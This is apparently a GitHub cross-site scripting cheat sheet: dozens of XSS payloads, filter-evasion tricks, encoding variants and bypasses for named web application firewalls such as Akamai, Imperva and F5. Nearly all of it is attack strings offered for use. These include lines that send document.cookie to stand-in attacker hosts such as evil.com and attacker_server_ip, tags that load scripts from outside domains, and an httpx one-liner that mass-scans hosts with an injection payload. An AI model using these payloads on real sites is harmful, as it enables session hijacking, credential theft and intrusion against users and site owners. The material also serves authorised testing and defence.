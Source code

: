 	Check this AwesomeXSS github": - https://github.com/s0md3v/AwesomeXSS
	=====================================================================
	---------------
	| XXS Payload | Cross-Site Scripting (XSS) Cheatsheet
	---------------------------------------------------------------------


1-      '"></title></script><img src=x onerror=confirm(1)>

2-	<xml:namespace prefix="t">
	<svg><style>&lt;img/src=x onerror=alert(document.domain)// </b>

3-	"><svg/onload=alert(document.domain)>"

4-	“><img src=x onerror=prompt(0);>

5- 	<marquee loop=1 width=0 onfinish=co\u006efirm(document.cookie)>XSS</marquee>

6- 	${7*7}{{7*7}}"--></script><img/src=x onerror=';alert(0);'>

7- 	<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
	<d3"<"/onclick="1>[confirm``]"<">z
	<d3/onmouseenter=[2].find(confirm)>z
	<details open ontoggle=confirm()>
	<script y="><">/*<script* */prompt()</script
	<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
	<a href="javascript%26colon;alert(1)">click
	<a href=javas&#99;ript:alert(1)>click
	<script/"<a"/src=data:=".<a,[8].some(confirm)>
	<svg/x=">"/onload=confirm()//
	<--`<img/src=` onerror=confirm``> --!>
	<svg%0Aonload=%09((pro\u006dpt))()//
	<sCript x>(((confirm)))``</scRipt x>
	<svg </onload ="1> (_=prompt,_(1)) "">
	<!--><script src=//14.rs>
	<embed src=//14.rs>
	<script x=">" src=//15.rs></script>
	<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
	<iframe/src \/\/onload = prompt(1)
	<x oncut=alert()>x
	<svg onload=write()>
	"><script>alert(0);</script>
	""></script/><script/>(confirm)(1)

8- 	%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`


9- 	<svg onload=alert(0)>

10- 	'"()&%<acx><ScRiPt >alert(/openbugbounty/)</ScRiPt>

11- 	<style>
	@keyframes
 	a{}b{animation:a;}</style>
	<b/onanimationstart=prompt`${document.domain}&#x60;>
	<d3v/onauxclick=[2].some(confirm)>click
	<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>


12- 	"--!><Svg/OnLoad=(confirm)(1)>"


13- 	<<meh<meh>svg/onload=alert(1)>

14- 	<details ontoggle=prompt()>

15- 	script ~~~>alert(0%0)</script ~~~>
	<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>
	<svg><style>'<body/onload=confirm(1)>'
	<iframe/%00/ src=javaSCRIPT&colon;alert(/hhhh/)
	//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
	
	
16- 	"onmouseover="confirm/()"//
		If your payload in string tag like : value="alexa" 
			you can simple alert by onmouseover - payload to alert xss
			"onmouseover="alert(1)

17- 	<a href=“JavaScript:alert(1)”>test</a>	
	
18-	cat hosts | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert(" 
	
	
19- 	A nice one from @garethheyes
	eval([,]+'ale'+[,]+[,]+'rt(1)'+[,])
	
20- 	" onload="alert(1)
21- 	<xml onreadystatechange=alert(1)>

22- 	<sc%00ript/test='asdf'/te%00st2='asdf'>alert/**/(1)</script>



	--------------------------------------------------------------------
	XSS Locators:
	'';!--"<XSS>=&{()}
	--------------------------------------------------------------------
	Classic Payloads:
	<svg onload=alert(1)>
	"><svg onload=alert(1)>
	<iframe src="javascript:alert(1)">
	"><script src=data:&comma;alert(1)//
	--------------------------------------------------------------------
	script tag filter bypass:
	<svg/onload=alert(1)>
	<script>alert(1)</script>
	<script     >alert(1)</script>
	<ScRipT>alert(1)</sCriPt>
	<%00script>alert(1)</script>
	<script>al%00ert(1)</script>
	<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
	
	--------------------------------------------------------------------
	HTML tags:
	<img/src=x a='' onerror=alert(1)>
	<IMG """><SCRIPT>alert(1)</SCRIPT>">
	<img src=`x`onerror=alert(1)>
	<img src='/' onerror='alert("xss")'>
	<IMG SRC=# onmouseover="alert('xxs')">
	<IMG SRC= onmouseover="alert('xxs')">
	<IMG onmouseover="alert('xxs')">
	<BODY ONLOAD=alert('XSS')>
	<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
	<SCRIPT SRC=http:/evil.com/xss.js?< B >
	"><XSS<test accesskey=x onclick=alert(1)//test
	<svg><discard onbegin=alert(1)>
	<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
	<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
	
	--------------------------------------------------------------------
	Other tags:
	<BASE HREF="javascript:alert('XSS');//">
	<DIV STYLE="width: expression(alert('XSS'));">
	<TABLE BACKGROUND="javascript:alert('XSS')">
	<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
	<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
	<xss id=x tabindex=1 onactivate=alert(1)></xss>
	<xss onclick="alert(1)">test</xss>
	<xss onmousedown="alert(1)">test</xss>
	<body onresize=alert(1)>”onload=this.style.width=‘100px’>
	<xss id=x onfocus=alert(document.cookie)tabindex=1>#x’;</script>
	
	--------------------------------------------------------------------
	CharCode:
	<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
	--------------------------------------------------------------------
	if the input is already in script tag:
	@domain.com">user+'-alert`1`-'@domain.com
	--------------------------------------------------------------------
	AngularJS: 

	toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,11 4,116,40,49,41)
	
	--------------------------------------------------------------------
	Scriptless:
	<link rel=icon href="//evil?
	<iframe src="//evil?
	<iframe src="//evil?
	<input type=hidden type=image src="//evil?
	
	--------------------------------------------------------------------
	Unclosed Tags:
	<svg onload=alert(1)//
	--------------------------------------------------------------------
	DOM XSS:
	""><svg onload=alert(1)>
	<img src=1 onerror=alert(1)>
	javascript:alert(document.cookie)
	\"-alert(1)}//
	<><img src=1 onerror=alert(1)>

	--------------------------------------------------------------------
	Another case:
	param=abc`;return+false});});alert`xss`;</script>
	abc`; Finish the string
	return+false}); Finish the jQuery click function
	}); Finish the jQuery ready function
	alert`xss`; Here we can execute our code
	</script> This closes the script tag to prevent JavaScript parsing errors
	
	

=======================================================
``` 				Restriction Bypass						
=======================================================

	--------------------------------------------------------------------
	No parentheses:
	<script>onerror=alert;throw 1</script>
	<script>throw onerror=eval,'=alert\x281\x29'</script>
	<script>'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}</script>
	<script>location='javascript:alert\x281\x29'</script>
	<script>alert`1`</script>
	<script>new Function`X${document.location.hash.substr`1`}`</script>
	--------------------------------------------------------------------

	No parentheses and no semicolons:
	<script>{onerror=alert}throw 1</script>
	<script>throw onerror=alert,1</script>
	<script>onerror=alert;throw 1337</script>
	<script>{onerror=alert}throw 1337</script>
	<script>throw onerror=alert,'some string',123,'haha'</script>
	--------------------------------------------------------------------
	No parentheses and no spaces:
	<script>Function`X${document.location.hash.substr`1`}```</script>
	--------------------------------------------------------------------
	Angle brackets HTML encoded (in an attribute):
	"onmouseover="alert(1)
	'-alert(1)-'   
	--------------------------------------------------------------------
	If quote is escaped:
	'}alert(1);{'
	‘}alert(1)%0A{‘
	\’}alert(1);{//
	--------------------------------------------------------------------
	Embedded tab, newline, carriage return to break up XSS:
	<IMG SRC="jav&#x09;ascript:alert('XSS');">
	<IMG SRC="jav&#x0A;ascript:alert('XSS');">
	<IMG SRC="jav&#x0D;ascript:alert('XSS');">
	--------------------------------------------------------------------
	Other:
	<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>: base64 value which is alert(‘XSS’)
	');alert("XSS");//

==============================================
Encoding									  |
==============================================
	--------------------------------------------------------------------
	Unicode:
	<script>\u0061lert(1)</script>
	<script>\u{61}lert(1)</script>
	<script>\u{0000000061}lert(1)</script>
	--------------------------------------------------------------------
	Hex:
	<script>eval('\x61lert(1)')</script>
	--------------------------------------------------------------------
	HTML:
	<svg><script>&#97;lert(1)</script></svg>
	<svg><script>&#x61;lert(1)</script></svg>
	<svg><script>alert&NewLine;(1)</script></svg>
	<svg><script>x="&quot;,alert(1)//";</script></svg>
	\’-alert(1)//
	--------------------------------------------------------------------
	URL:
	<a href="javascript:x='%27-alert(1)-%27';">XSS</a>
	--------------------------------------------------------------------
	Double URL Encode:
	%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
	%2522%253E%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
	--------------------------------------------------------------------
	Unicode + HTML:
	<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&	#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
	--------------------------------------------------------------------
	HTML + URL:
	<iframe src="javascript:'&#x25;&#x33;&#x43;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x25;&#x33;&#x43;&#x25;&#x32;&#x46;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;'"></iframe>
	--------------------------------------------------------------------	

================================================
						WAF
================================================
	Akamai:
	---------
	1- ?returnurl=javascript:cyber=console;cyber.guy=cyber.log;momen=document;momen.cg=momen.cookie;

	2- Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:
	/login?
	ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
	
	3- Found CSTI in Agnular 1.6+ behind Akami WAF.  Here is the bypass to get document.domain:

		{{constructor.constructor('a=document;confirm(a.domain)')()}

	4- Akamai WAF bypass XSS in HTML-context when no character-filtering exists to trick it: 

		<style>@AbdulR020{}b{animation:a;}</style>
		<b/onanimationstart=prompt`${document.domain}&#x60;>

	5- <marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>
		<d3v/onauxclick=[2].some(confirm)>click

	6- Reflected #XSS Akami WAF Bypass in Redirect Parameter using #HTTP Parameter Pollution and Double #URL Encode:

		/login? 
		ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529


	Imperva Incapsula:
	%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
	<img/src="x"/onerror="[JS-F**K Payload]">
	<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>
	<img src="/><script>alert('XSS by Vickie');</script>"/>
	<img src="123" onerror="alert('XSS by Vickie');"/>
	<a href="javascript:alert('XSS by Vickie')>Click me!</a>"

	--------------------------------------------------------------------
	WebKnight:
	<details ontoggle=alert(1)>
	<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
	--------------------------------------------------------------------
	F5 Big IP:
	<body style="height:1000px" onwheel="[DATA]">
	<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
	<body style="height:1000px" onwheel="[JS-F**k Payload]">
	<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
	<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
	<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
	--------------------------------------------------------------------Barracuda WAF:
	<body style="height:1000px" onwheel="alert(1)">
	<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
	--------------------------------------------------------------------
	PHP-IDS:
	<svg+onload=+"[DATA]"
	<svg+onload=+"aler%25%37%34(1)"
	--------------------------------------------------------------------
	Mod-Security:
	<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
	1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
	<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
	--------------------------------------------------------------------
	Quick Defense:
	<input type="search" onsearch="aler\u0074(1)">
	<details ontoggle="aler\u0074(1)">
	--------------------------------------------------------------------
	Sucuri WAF:
	1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
	1'%22()%26%25<acx><ScRiPt%20>alert(1)</ScRiPt>
	--------------------------------------------------------------------	

	https://example.com/account/{Here_you_inject_payload}/singup/
	(F(%22%20%252fonmouseover=%22%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2567%2565%2574%2545%256c%2565%256d%2565%256e%2574%2573%2542%2579%254e%2561%256d%2565%2528%2527%2541%2563%2563%256f%2575%256e%2574%252e%2550%2561%2573%2573%2557%256f%2572%2564%2527%2529%255b%2530%255d%252e%2576%2561%256c%2575%2565%2529%22))

	- <![endif]-- onerror="<![endif]-->" onload="<img src=x onerror='alert(1)'/>">
	



